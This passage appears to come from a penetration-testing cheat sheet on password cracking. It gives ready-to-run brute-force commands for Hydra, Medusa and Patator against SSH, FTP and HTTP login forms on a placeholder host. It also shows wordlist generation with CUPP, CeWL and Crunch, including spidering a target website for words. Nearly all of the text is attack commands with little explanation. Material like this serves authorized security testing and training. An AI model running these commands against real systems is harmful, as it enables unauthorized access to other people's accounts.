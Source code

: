 **Ophcrack** (Windows passwords with rainbow tables)

### Online Cracking

**Hydra** (Network protocol attacks)
```bash
# SSH brute force
hydra -l admin -P passwords.txt ssh://target.com

# HTTP POST form
hydra -l admin -P passwords.txt target.com http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"

# FTP
hydra -l admin -P passwords.txt ftp://target.com

# Multiple users
hydra -L users.txt -P passwords.txt ssh://target.com
```

**Medusa** (Alternative to Hydra)
```bash
# SSH attack
medusa -h target.com -u admin -P passwords.txt -M ssh

# Multiple protocols
medusa -h target.com -U users.txt -P passwords.txt -M http
```

**Patator** (Multi-protocol brute forcer)
```bash
# SSH
patator ssh_login host=target.com user=admin password=FILE0 0=passwords.txt

# HTTP
patator http_fuzz url=http://target.com/login method=POST body='user=admin&pass=FILE0' 0=passwords.txt
```

### Password Analysis

**CUPP** (Common User Passwords Profiler)
```bash
# Generate targeted wordlist
cupp -i
```

**CeWL** (Custom Word List generator)
```bash
# Spider website and create wordlist
cewl -d 2 -m 5 https://target.com -w wordlist.txt
```

**Crunch** (Wordlist generator)
```bash
# Generate wordlist
crunch 8 8 -t @@@@%%%% -o wordlist.txt
# @ = lowercase
# , = uppercase
# % = numbers
# ^ = special characters
```
